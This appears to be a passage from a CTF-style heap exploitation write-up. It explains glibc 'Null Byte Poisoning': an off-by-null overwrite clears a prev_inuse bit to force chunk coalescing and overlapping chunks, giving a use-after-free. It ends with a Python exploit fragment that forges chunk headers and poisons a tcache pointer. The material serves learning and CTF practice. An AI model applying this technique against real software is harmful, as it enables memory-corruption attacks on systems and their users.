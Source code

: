 lets see it in visuals

![finalnull.gif](/d1ff/images_limit/finalnull.gif)

**Getting Overlapping Chunk**

Now, using an **off-by-null** overflow, we can **clear the `prev_inuse` bit** of the next chunk without actually freeing the previous one. This tricks the heap into thinking that the previous chunk is free — even though it’s still allocated.

So, when we later **free the next (adjacent) chunk**, the heap checks the `prev_inuse` bit, sees it as `0`, and **attempts to coalesce** it with the "previous" chunk — which we never actually freed. As a result, the allocator merges them into one large chunk.

Now, if we free the **real middle chunk**, and then allocate a new chunk that fits the entire merged region, it will overlap with the recently free middle chunk. **Hence, Providing `UAF` on it.**


**Note:** The explanation above provides a **high-level overview** of the **Null Byte Poisoning** technique. When crafting a full exploit, you'll need to carefully account for all the **heap integrity checks** performed during `free()`, as well as perform some strategic [**heap feng shui**](https://en.wikipedia.org/wiki/Heap_feng_shui) to align your chunks just right and achieve the desired overlap.

*For a deeper understanding of the exploit’s implementation, **Shellphish** and others have provided excellent POC and write-ups  — check them out in the **Resources** section at the end!*

```python
target = obfuscate(heap_base+0x100,heap_base)
create(8,0x38)  #### a
offset = 0xca0
address = heap_base + offset
write_into(8,pack(0)+pack(0x60)+pack(address)+pack(address))

create(9,0x28) #### b
create(10,0xf8) #### c
create(11,24)  ################## seperate from top_chunk

write_into(9,b'\x00'*(0x28-8)+pack(0x60))

for i in range(7,0,-1):
    free(i)
    
free(10) 

create(12,0xd8)
create(13,0x28)
free(13)
free(9)

write_into(12,pack(0)*5+pack(0x31)+pack(target)[:7])

create(13,0x28)
```

---
